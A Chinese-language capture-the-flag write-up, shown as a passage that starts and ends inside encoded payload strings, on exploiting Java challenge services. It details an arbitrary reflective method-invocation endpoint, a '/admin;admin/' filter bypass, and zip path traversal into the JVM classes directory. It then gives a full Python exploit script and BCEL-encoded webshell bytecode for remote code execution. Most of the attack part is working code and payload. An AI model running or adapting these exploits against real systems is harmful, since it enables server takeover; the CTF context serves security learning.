$7c$d5$f9$9d$a1$3c$b7Vp$p$B$e2$8eTF$ea$92B$qE$r$K$a2$3e$g$f2i4P$b8I$8eJ$d1$m$a9$86I$b5$81T$95$lQ$d7$Z$O$5d$t$aaD$g$af$a1$v$8b$e6H4$8b$F$e7$R$89$w$95$91$85$c9$a8$S$88$yJ$5eB$8d8$$$ce$j$ef$n$g$8c$86$93Q9$8b$r$91$a5$c5$9e$a3$b2$7f$f9$Ph$Z$b9$86eQ$r$8b$e5Y$ac$b8$8a$95$91UY$ac$ce$o$s$9c$O$fb$96$ad$f9$97D$e5$7cxy$7e$db$i$fe$r$84$f7$b5e$b1v$f8$8aH$C$haG$e9$b3$a82$97$o$H$8b$88$86$v$3d$K$9a$u$N$z$b4kG5$b6b$kzP$83A$cc$c7$Ija$p$823$f4Iv$W$f58$87$G$g$f5$8d$a0$f7$e2$G$9a$f13$a2$f8$V$L$f0$h$dd$f5$3b$W$e3$P$y$c1_X$caZ$d1$c2$ba$b1$8c$8d$60$ry$5c$ce$8ea$F$h$c3$aa$5c9$9c$s$3f$w$h$c0fl$a1S$T$dbE$k$b7Qt$zl$x$3a$d1E$F$d4$c3$g$b1$9dx$95$YdU$b8$97x$B$8cP$f8$3bh$X$a4x$fe$c4$7d$q$NQT$bf$60$t$ed$q$8a$v$8bn$92$ca$U$d9E$ec$a2$f8$c3$U$df$F$ecF$_$U$f2$k$c4$k$dcO$de$fa$e8$7f3$C7$v$e0$w$J$7b$r$3c$ma_$81$fa$h$7f$df$_a$A$a8$baI$u$Rl$S$G$83$U$e1$fe$5cy$l$f8$HBi$7e$fd$J$L$A$A";
        //获取ClassLoader对象
        ClassLoader classLoader = (ClassLoader) Class.forName("com.sun.org.apache.bcel.internal.util.ClassLoader").getDeclaredConstructor().newInstance();
        //获取loadClass方法
        Method loadClass = classLoader.getClass().getDeclaredMethod("loadClass", String.class, boolean.class);
        //执行loadClass方法加载BCEL
        Class<?> loadedClass = (Class<?>) loadClass.invoke(classLoader, new Object[]{Bcel, true});
        loadedClass.newInstance();
    }
}
```

然后我们尝试写文件

```java
package com.polar.ctf;

import java.io.IOException;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;

import static com.polar.ctf.util.Tools.base64Encode;
import static com.polar.ctf.util.Tools.serialize;

public class POC {
    public static void main(String[] args) throws Exception {
        Constructor constructor = Class.forName("org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap").getDeclaredConstructor(String.class, int.class);
        constructor.setAccessible(true);

        //多态实例化对象
        HashMap hashMap = (HashMap) constructor.newInstance("/usr/lib/jvm/java-8-openjdk-amd64/jre/clesses",1);
        Constructor constructor2 = Class.forName("com.polar.ctf.bean.UserBean").getDeclaredConstructor();
        constructor2.setAccessible(true);
        Object object = constructor2.newInstance();

        //反射设置变量
        Class clazz = Class.forName("com.polar.ctf.bean.UserBean");

        Field obj = clazz.getDeclaredField("obj");
        obj.setAccessible(true);
        obj.set(object,hashMap);

        Field name = clazz.getDeclaredField("name");
        name.setAccessible(true);
        name.set(object,"LoadPoc.class");

        Field age = clazz.getDeclaredField("age");
        age.setAccessible(true);
        String payload = FiletoBase64("C:\\Users\\23232\\Desktop\\附件\\JavaSec\\out\\production\\JavaSec\\com\\polar\\ctf\\LoadPoc.class");
        age.set(object,payload);

        byte[] bytes = serialize(object);
        System.out.println(base64Encode(bytes));

    }
    public static String FiletoBase64(String filename) throws IOException {
        byte[] bytes = Files.readAllBytes(Paths.get(filename));
        String encode = Base64.getEncoder().encodeToString(bytes);
        return encode;
    }
}
```



将文件写入后我们尝试反序列化那个恶意字节码的类，触发readObject，在请求头进行RCE就行了

但是不知道为什么在反序列化那个恶意字节码的时候一直没打通

# ezUtil

## #任意文件写入

### 代码分析

翻了一下源码

在/admin/api/GetClassController控制器

```java
package com.polar.ctf.admin.api.controller;

import com.polar.ctf.admin.api.common.base.BaseRequest;
import com.polar.ctf.admin.api.common.base.BaseResponse;
import com.polar.ctf.admin.api.common.constant.ReturnCode;
import com.polar.ctf.admin.api.common.util.ResponseUtil;
import com.polar.ctf.admin.api.common.util.StringUtils;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.List;
import java.util.Map;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestBody;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestMethod;
import org.springframework.web.bind.annotation.ResponseBody;

@RequestMapping({"/admin/api"})
@Controller
/* loaded from: ezUtil.jar:BOOT-INF/classes/com/polar/ctf/admin/api/controller/GetClassController.class */
public class GetClassController {
    @RequestMapping(value = {"/GetClassValue"}, method = {RequestMethod.POST})
    @ResponseBody
    public BaseResponse getClassValue(@RequestBody BaseRequest<Map<Object, Object>> request) {
        BaseResponse baseResponse = ResponseUtil.build(ReturnCode.Failed);
        Map<Object, Object> data = request.getData();
        if (null == data) {
            return ResponseUtil.build(ReturnCode.Failed);
        }
        String clazzName = (String) data.get("clazzName");
        String methodName = (String) data.get("methodName");
        Object fieldName = data.get("fieldName");
        Object[] objects = new Object[0];
        if (fieldName instanceof List) {
            List<?> fileds = (List) fieldName;
            if (fileds.size() > 0) {
                objects = fileds.toArray();
            }
        }
        if (StringUtils.isNotBlank(clazzName)) {
            Object instance = null;
            try {
                Class<?> clazz = Class.forName(clazzName);
                if (StringUtils.isNotBlank(methodName)) {
                    instance = clazz.newInstance();
                    if (methodName.contains("serialize") || methodName.contains("readObject")) {
                        baseResponse.setCode(ReturnCode.Failed.getCode());
                        baseResponse.setDesc(ReturnCode.Failed.getDesc());
                        return baseResponse;
                    }
                    if (objects.length == 0) {
                        Method method = clazz.getDeclaredMethod(methodName, new Class[0]);
                        method.setAccessible(true);
                        Object object = method.invoke(instance, new Object[0]);
                        return ResponseUtil.build(object);
                    }
                    Method[] methods = clazz.getDeclaredMethods();
                    for (Method method2 : methods) {
                        if (method2.getName().equals(methodName)) {
                            Class<?>[] parameterTypes = method2.getParameterTypes();
                            Method m = clazz.getMethod(methodName, parameterTypes);
                            m.setAccessible(true);
                            Object obj = m.invoke(instance, objects);
                            return ResponseUtil.build(obj);
                        }
                    }
                }
                if (fieldName != null) {
                    Field field = fieldName instanceof String ? clazz.getDeclaredField((String) fieldName) : null;
                    if (field != null) {
                        field.setAccessible(true);
                    }
                    Object object2 = field != null ? field.get(instance) : null;
                    return ResponseUtil.build(object2);
                }
            } catch (ClassNotFoundException var17) {
                var17.printStackTrace();
                baseResponse = ResponseUtil.build("ClassNotFoundException");
                baseResponse.setCode(ReturnCode.Failed.getCode());
                baseResponse.setDesc(ReturnCode.Failed.getDesc());
            } catch (IllegalAccessException var18) {
                var18.printStackTrace();
                baseResponse = ResponseUtil.build("IllegalAccessException");
                baseResponse.setCode(ReturnCode.Failed.getCode());
                baseResponse.setDesc(ReturnCode.Failed.getDesc());
            } catch (InstantiationException var22) {
                var22.printStackTrace();
                baseResponse = ResponseUtil.build(((Object) "") + "");
                baseResponse.setCode(ReturnCode.Failed.getCode());
                baseResponse.setDesc(ReturnCode.Failed.getDesc());
            } catch (NoSuchFieldException var21) {
                var21.printStackTrace();
                baseResponse = ResponseUtil.build("NoSuchFieldException");
                baseResponse.setCode(ReturnCode.Failed.getCode());
                baseResponse.setDesc(ReturnCode.Failed.getDesc());
            } catch (NoSuchMethodException var19) {
                var19.printStackTrace();
                baseResponse = ResponseUtil.build("NoSuchMethodException");
                baseResponse.setCode(ReturnCode.Failed.getCode());
                baseResponse.setDesc(ReturnCode.Failed.getDesc());
            } catch (InvocationTargetException var20) {
                var20.printStackTrace();
                baseResponse = ResponseUtil.build("InvocationTargetException");
                baseResponse.setCode(ReturnCode.Failed.getCode());
                baseResponse.setDesc(ReturnCode.Failed.getDesc());
            }
        }
        return baseResponse;
    }
}
```

getClassValue方法接收一个包含Map数据的BaseRequest对象，接收一个data参数，并从中提取出clazzName，methodName和fieldName，然后将fieldName参数转化成数组作为方法的实参



这里做了一个反射机制，任意类方法的调用，但是禁用了serialize方法和readObejct方法

再看到com/polar/ctf/admin/util/FileUtil.java中有上传zip文件的处理函数generateZip

```java
    public static String generateZip(String zip, String folderPath, String fileName) {
        if (folderPath.contains(CallerDataConverter.DEFAULT_RANGE_DELIMITER) || fileName.contains(CallerDataConverter.DEFAULT_RANGE_DELIMITER)) {
            return "error";
        }
        String zip2 = zip.substring(zip.indexOf(",") + 1);
        OutputStream out = null;
        String returnPath = folderPath + File.separator + fileName + ".zip";
        try {
            try {
                byte[] b = Base64.decodeBase64(zip2.getBytes(StandardCharsets.UTF_8));
                for (int i = 0; i < b.length; i++) {
                    if (b[i] < 0) {
                        b[i] = (byte) (b[i] + 256);
                    }
                }
                out = new FileOutputStream(returnPath);
                out.write(b);
                out.flush();
                if (null != out) {
                    try {
                        out.close();
                    } catch (IOException var14) {
                        var14.printStackTrace();
                    }
                }
                return returnPath;
            } catch (Throwable th) {
                if (null != out) {
                    try {
                        out.close();
                    } catch (IOException var142) {
                        var142.printStackTrace();
                    }
                }
                throw th;
            }
        } catch (IOException var15) {
            var15.printStackTrace();
            if (null != out) {
                try {
                    out.close();
                } catch (IOException var143) {
                    var143.printStackTrace();
                }
            }
            return returnPath;
        }
    }
```

这个方法可以上传任意的zip文件，虽然有对路径遍历进行了一定的防御，但是对文件内容没有任何过滤

然后还有同类中的unZipFile方法能解压zip文件



同样，这里直接用了拼接去处理文件名，那么这里存在目录穿越，可以把任意文件上传到任意位置。

看完代码大致就可以理解了，我们可以通过任意类方法的调用去调用generateZip上传恶意的zip文件，再调用unZipFile方法去进行解压，从而达到一个任意文件读写的操作

和上一题的`一写一个不吱声`一样，我们可以通过上传一个恶意字节码文件压缩包到JAVA_HOME目录下并解压，然后进行任意类方法调用，调用恶意字节码的classloader加载外部恶意字节码，来达到rce的效果。

但是这里的话其实有一个Filter过滤器的限制

在com.polar.ctf.filter.config.FilterConfig中



一个全局过滤器和一个admin的过滤器

当我们发送请求的时候，会根据setOrder()中的数字来判断过滤器的优先级，数字越小优先级越高，所以首先是经过handleFilter全局过滤器：

好像我的jadx在反编译handleFilter的时候失败了，所以直接看class文件了



可以看到这里会检测admin/后是否包含`../`或者`;`，如果包含就403了

然后我们看看admin的过滤器

```java
package com.polar.ctf.filter;

import java.io.IOException;
import java.nio.file.Files;
import java.nio.file.Paths;
import javax.servlet.Filter;
import javax.servlet.FilterChain;
import javax.servlet.ServletException;
import javax.servlet.ServletRequest;
import javax.servlet.ServletResponse;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

/* loaded from: ezUtil.jar:BOOT-INF/classes/com/polar/ctf/filter/AdminFilter.class */
public class AdminFilter implements Filter {
    @Override // javax.servlet.Filter
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        HttpServletRequest httpRequest = (HttpServletRequest) servletRequest;
        HttpServletResponse httpResponse = (HttpServletResponse) servletResponse;
        String uri = httpRequest.getRequestURI();
        if (uri.startsWith("/admin/")) {
            httpResponse.setStatus(403);
            httpResponse.setContentType("text/html;charset=utf-8");
            String htmlContent = new String(Files.readAllBytes(Paths.get("src/main/resources/static/error/403.html", new String[0])));
            httpResponse.getWriter().write(htmlContent);
            return;
        }
        filterChain.doFilter(servletRequest, servletResponse);
    }
}
```

禁止访问`/admin/`开头的所有请求路径

### 绕过过滤器

绕过方法是：`/admin;admin/`这样handleFilter就只会检查到后面的`admin/`，前面的结构被破坏，并且也没存在`/admin/`，第二个AdminFilter同样被绕过了。

所以我们最后构造的路由就是`/admin;admin/api/GetClassValue` 

为什么这个路径能被解析呢？其实是Servlet容器的路径参数处理机制问题，在Servlet规范中，`;`后面的内容会被视为路径参数，而Spring MVC在进行路径匹配的时候会自动去除路径参数，也就是说

```java
/admin;admin/api/GetClassValue
    ->去除;admin，最终得到
/admin/api/GetClassValue
```

### 最终POC

写一个BCEL类加载器

```java
package com.polar.ctf;

import java.lang.reflect.Method;

public class BCELClassloader {
    public static boolean BCELloader(String BCELString) throws Exception{
        //实例化ClassLoader对象
        ClassLoader cl = (ClassLoader) Class.forName("com.sun.org.apache.bcel.internal.util.ClassLoader").getDeclaredConstructor().newInstance();
        //反射获取loadClass方法
        Method method = cl.getClass().getDeclaredMethod("loadClass", String.class);
        //执行loadClass方法
        method.setAccessible(true);
        Class<?> loadclass = (Class<?>) method.invoke(cl, BCELString);
        loadclass.newInstance();
        return true;
    }
}
```

然后和之前一样，将回显马转化成BCEL格式

```java
$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$8dV$5bw$TU$U$fe$OM2$93$e9$94$d2$b4$a5$N$Xi$b9$a6$F$S$ca$9d$b6$w$a5$F$8b$b4$FI$a1$96$82$3a$9d$9e6C$t3afR$K$de$ef$8a7$bc$a1$887DE$97O$bc$E$96$$X$3e$fb$a0$_$be$fa$e4$93$be$f8$P$c4$7d2$J$q4$a8$5d$ab$fb$9c$b3$ef$fb$db$fb$9c$ccO$7f$7f$7f$D$c0f$7c$ab$m$8c$D$K$k$c2AA$922$86$V$i$c2a$Z$p$S$kV$maT$c2$R$Fc8$w$e3$98$8cGd$3c$w$e31$Z$9a$90$8d$cb$d0eLH$e0BcR$c6$94$8c$94$C$D$c7$V$d4cZ$86$v$d6$b4$MK$86$z$p$p$82$9d$90$e1Hp$Vx$c8$K2$a3$e0$qf$V$b4$e0$94$8c$d3b$7d$5c$90$td$3c$v$e3$v$JO$xh$c73$S$9ee$Iu$h$96$e1$dd$c7P$Vk$3b$cc$Q$e8$b5$t8C$ed$80a$f1$a1lz$9c$3b$c3$da$b8I$9c$c8$80$adk$e6a$cd1$c4$b9$c0$Mx$v$c3e$a8$l$Y$e6$ae$t$y$T$83$3c$ed$a6$b8iv1$c8$dd$baY$f0$3dof$DC$dd$c0qmFK$98$9a5$95$e855$d7$ed$S$82$O$86E$r$C$87O$9a$5c$f7$c8$8f$97$b2$t$f2$g$hE$f0$db$g$fb$c7$8f$93B$5e$b2I$90$cd$82l$Rd$ab$m$db$E$d9$$$c8$8er$bb$a4$e7$Y$d6$U$d9U$cdtP6$f5c$95d$c1$Z$cd$e9$a0$94$gK$84$bbgu$9e$f1$M$db$oyM$d2$d3$f4$e9A$z$93$H$80$ba$v$e19$ea$r5KB$l$e1$ca$a0$q$ed$ac$a3$f3$3d$86$c0$a7$a6$IG$5c$b8S$b1$kq$J$cf$abx$B$_$aax$J$_3t$db$ceT$dc$cd$88$f0$93$8e$96$e6$tmg$3a$7e$92$8f$c7u$db$f2$f8$ac$Xw$f8$89$y$81$h$3f$e8$af$bd$3e$bb$df6$t8$b5$fc$V$V$af$e2$MC$c3$U$f7$K$g$3d$k$V3$9e$f585$a6$f6$O$c4U$bc$86$d7$Z$W$dc$89$sU$a1$e2$N$bc$c9$b0$f3$ff$e6$93$e4$ce$8cY1hu$3e$X7c$5b$$A$a0$dc$ce$8ca$a9$I$3c$hw$7d$db$db$3e$8a$caaR$kq$M$8f$3b$w$de$S$99$ae$w7Hy$5e$s$deO$a4$3c$bao$d8$cf5$c2$a4$ac$3a$bf$af$w$ce$e2m$ea$bb$9e$9e$60$90l7nQa$S$deQ$f1$$$deS$f1$3e$ce$91pd$ef$90$8a$P$f0$nMNB$t$b5$c4$b8a$r$dc$U$j$d7$eb$w$ce$e3$p$e2$JX$3c$d3$a2Q$ce$87$c8z$86$99H$ea$9ae$89V$5cP$f11$3eQ$f1$v$3e$93$f0$b9$8a$8b$f8B4$fc$Sy8$da$a3$e2K$7c$a5$e2k$R$w8if$85$e3$a0n$da$W$V$5d_a$d4T$5c$c67$Ug$ce$bdbh$be$dbe$v$ab$7c8$e5$Q$i4$81z$d6q$b8$e5$V$cf$N$b1$b6$81$3b$b5h$ae$h$J$bf$c2h$e5$He$c0$f6$b1$8c$96$a9$97$88$84ME$B$f5$c2$a4M$9eC$fd$8b$cd$bdes$3cv$f9$fd$xV$b1$b3$82$cd$d8$i$9b$b6$7f$7b4B$865cO$T$b6$3bbs_$8e$b1$b9$ac$b6J$efK$j$e5$d4$c7uSs$f8D1$b7$g$97$7b$3d$ba$ce$5d$d7$f0$l$c0$d8$R$f1j$96$8e$dc$v$d7$e3i$ff$W$ip$ec$Mw$bcS$M$ab$ff$D$87$5b$PP$b5g$l$ca$90Q$af$s$eeCy$b7n$v$c9$e22j$86E$A$_$$u$dc$9b$d2$9c$a4$b8$S$96$ce$bb$da$8e$90$a2h$ab$df$89$fa$b9$9d$ec$w$Or$9eu0kyF$baxc$8b$87$c62$b3$C$9b$M$D$7c$96$d35$89$c5$w$3c$a3$a5$W$E$81$40$ab$3cT$81$c90$9fB$ed$b52Y$8f$y$b9F$a85$V$c3$Zv$a2D$40$e6$cd$b1$8a$C$81$be$9auy$l7$8d$b4x8$Y$d6$dc$j$eb$d2$h$x$8a$b0h$de$a9$a9$94E$fe$5d$lv4$9djn$89$b5$95WU$U$ed6y$9a$eeR$XZ$b1$8e$7eu$c5$df$3c0$f1$aa$TM$d0$vA$x$a35$d8$7e$V$ecJ$5e$bc$81h$u$cf$M$a1$83$a8$ea$x$60$p6$d1$w$d3$e7B$c1x$dew$e4$b2$g$60$fa5$cc$cb$a1$w$S$c8$n$b8$af$3d$S$aa$ba$O$v$Hy$60$z$a3$5d8$He$b0$a0P$ed$x$a8E$85$f6HMa$3b$b4v$5dA$b73$b0$fe$d66X$b0$9bOv$91Z_uAg$a8$c0$ad$T$dcH$80$b8$a3U$91$fa$a4$QIQ$89$92h$88$86$7c$g$N$U$3d$c9Q$v$g$q$d50$a96$92$aa$f2$p$ea$3b$c3$a1$ebD$95$c8$c2kh$ca$a19$S$cda$d1yD$a2$8a$d0$89$w$81$c8$e2$e4e$d4$8a$e3$92$fcq$v$d1$604$9c$8c$ca9$dc$TYV$g9$w$fb$ce$7f$40$cb$e85$b4F$95$i$96$e7$b0$e2$wVFV$e5$b0$3a$875$o$e8$88o$Z$xT$S$95$L$e9$V$f8ms$f8$97$R$de$d7$9e$c3$da$91$x$a2$Jl$94$j$a5$cf$a0$aa$7c$8b$i$y$n$g$a6$f6$uh$a26$b4B$3c$de5$d8$8e$f9$e8E$z$86$b0$A$a3$a8$83$8d$I$ce$d0$f7$d7Y4$e0$i$gq$J$LA$f5$e2$G$9a$f13$a2$f8$V$8b$f0$h$f9$fa$jK$f1$H$96$e1$_$b4$b06$b4$b2$k$yg$a3XE$RW$b0cX$c9$c6$b1$3a$3f$O$a7$v$8e$ca$G$b1$F$5b$e9$d4$c4va$h$c5dd$b1$j$3b$d0I$D$d4$cb$W$a2$8bxU$Yb$d5$e8$s$5e$A$a3$94$fe$bd$b4$LR$3e$7f$e2$3e$92$86$u$ab_p$3f$ed$q$ca$v$87$9d$q$95$v$b3$8b$e8$c1$$$aa$eb$G$$P$j$7dP$uz$Q$bb$b1$87$a2$3d$40$ff$5b$R$b8I$JWK$e8$97$b0W$c2$83E$eao$fc$fd$3e$J$D$40$f5MB$89$60$930$Y$a4$M$87$f2$e3$bd$ff$l$3e$J$M$87$f6$K$A$A
```

写个脚本进行处理吧，把类加载器的class文件压缩后上传并解压，然后任意类调用就行了

```python
import base64
import zipfile
import requests

url = "http://e58d2fed-15be-4c99-80d6-7439f06a57f7.www.polarctf.com:8090"

def file_to_base64(filename):
    with open(filename, "rb") as f:
        return base64.b64encode(f.read()).decode('utf-8')


#将恶意类加载器字节码压缩到一个zip文件里面并进行目录穿越
input_file = r'C:\Users\23232\Desktop\附件\java\out\production\java\BCELClassloader.class'
file_name = '../../../../../../../../usr/lib/jvm/java-8-openjdk-amd64/jre/classes/BCELClassloader.class'
with zipfile.ZipFile("output.zip","w",zipfile.ZIP_DEFLATED) as z:
    # 将文件压缩到 ZIP 中，并自定义在压缩包内的文件名
    z.write(input_file, file_name)
    z.close()

#上传压缩包
upload_zipdata = {
    "data":{
        "clazzName" : "com.polar.ctf.admin.util.FileUtil",
        "methodName" : "generateZip",
        "fieldName" : [
            file_to_base64("output.zip"),
            ".",
            "output"
        ]
    }
}
r1 = requests.post(url+"/admin;admin/api/GetClassValue", json=upload_zipdata)
print(r1.text)

#解压文件进行目录穿越
unzip_data = {
    "data":{
        "clazzName":"com.polar.ctf.admin.util.FileUtil",
        "methodName":"unZipFile",
        "fieldName":[
            "output.zip"   #zipFile
        ]
    }
}
r2 = requests.post(url+"/admin;admin/api/GetClassValue", json=unzip_data)
print(r2.text)

#调用类加载器执行恶意字节码
invoke_data = {
    "data" : {
        "clazzName":"BCELClassloader",
        "methodName":"BCELloader",
        "fieldName" : [
            "$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$8dV$5bW$TW$U$fe$OI$98a$YD$C$88$f1$KZ5$a0$q$e2$5d$a0V$E$z$d6$80$d6$a0$U$d1$b6$93$e1$A$p$93$9983A$b4$f7$7bk$ef7$5bko$d6$b6$b6$abO$beDV$bbt$f5$b9$P$edK_$fb$d4$a7$f6$a5$ff$a0v$9fL$a2$89$60$5b$d6b$9fs$f6$fe$f6$7d$9f$93$f9$e9$ef$efo$A$d8$82o$VT$e1$90$82$HqX$90$a4$8c$n$FGpT$c6$b0$84$87$UH$Y$91pL$c1$u$8e$cb8$n$e3a$Z$8f$c8xT$86$sd$v$Z$ba$8c1$J$5c$m$c6eL$c8$98T$60$e0$a4$82zL$c90$c5$9a$96a$c9$b0ed$84$b3S2$i$J$ae$C$PYA$a6$V$9c$c6$8c$82f$9c$91qV$ac$8f$J$f2$b8$8c$td$3c$v$e1$v$FmxZ$c23$M$95$dd$86ex$bb$Y$C$d1$d6$a3$M$c1$5e$7b$8c3$d4$s$M$8b$Pf$d3$v$ee$Mi$v$938$e1$84$adk$e6Q$cd1$c4$b9$c0$Mz$93$86$cb$a0$q$Gx$da$9d$e4$a6$d9$c5$mw$ebf$c1d$c5$f4F$86$ba$c4ImZ$8b$9b$9a5$R$ef55$d7$ed$S$82$O$86$r$r$C$87$8f$9b$5c$f7$e2$D$dc$9b$b4$c7$f2$88M$c2$e7m$c4$c1$d4I$C$e4$r$9b$F$d9$o$c8VA$b6$J$b2$5d$90$j$82$ec$y$d7Kz$8eaM$90$5e$60$ba$83$a2$a9$l$9dO$W$9a$d6$9c$O$K$a9$b1D$b8wF$e7$Z$cf$b0$z$92$d7$q$3dM$9f$g$d02$f9$bc$a9$89$S$9e$a5$WR$8f$q$f4Q9$a9$EI$3b$eb$e8$7c$9f$n$caRS$yGL$98S$d1$8e$98$84$e7T$3c$8f$XT$bc$88$97$Y$bamg$o$e6f$84$fbqGK$f3$d3$b63$V$3b$cdS1$dd$b6$3c$3e$e3$c5$i$7e$w$cb$5d$_v$d8_$7b$7dv$bfm$8eq$ea$f4$cb$w$5e$c19$86$86$J$ee$V$Q$3d$k$r$93$caz$9c$faQ$7bG$c5U$bc$8a$d7$Y$W$deYM$caB$c5$ebx$83a$f7$ff$8d$t$c9$9dis$5e$a7$d5$f9X$dc$8cm$b9T$C$e5vd$M$cb$85$e3$99$98$eb$eb$de$b6Q$EW$Rx$d81$3c$ee